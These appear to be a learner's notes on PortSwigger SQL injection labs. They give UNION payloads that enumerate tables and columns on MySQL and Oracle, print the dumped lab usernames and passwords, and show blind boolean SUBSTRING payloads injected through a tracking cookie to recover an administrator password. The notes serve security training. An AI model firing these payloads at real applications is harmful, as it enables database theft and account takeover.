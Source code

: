 # UNION attacks

MySQL end of query = `--` and `#`, **try both**.

**PS Lab:** `SQL injection attack, querying the database type and version on MySQL and Microsoft` rejected my accurate queries because I ended my query with `--` instead of `#`. Is this accurate of a real-world setup? I'm not sure.


### Lab: SQL injection attack, listing the database contents on non-Oracle databases
This is a non-Oracle database, so we need to make user of information_schema.tables
>Pets' union select table_name,NULL from information_schema.tables--

This returns all of the tables in the database.

Look for a non-standard table `users_xgouhg`

>Pets' union select * from users_xgouhg--

```
administrator
8bd235i2g39fg3h6865g
```

Chaching 💸

### SQL injection attack, listing the database contents on Oracle
Same thing, just with Oracle. Ezpz.

>Pets' union select table_name, null from all_tables--

Table name `USERS_YXUZFJ`

`Pets' union select COLUMN_NAME,null from all_tab_columns where table_name='USERS_YXUZFJ'--`
Columns:

```
PASSWORD_ODOKFU  
USERNAME_DZRUHS
```

```
administrator
b33a0q24met5szk298fj

carlos
yutk3v2n7a8tt6wco6n2

wiener
95ca28n08tuaahvqbeef
```

## Blind SQL injection with conditional responses

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),1,1) > 'm'--;

Welcome back!

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),1,1) = 'y'--;

First letter is `y`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),2,1) = '5'--;

Second character is `5`. Numbers come before letters in SUBSTRING() !


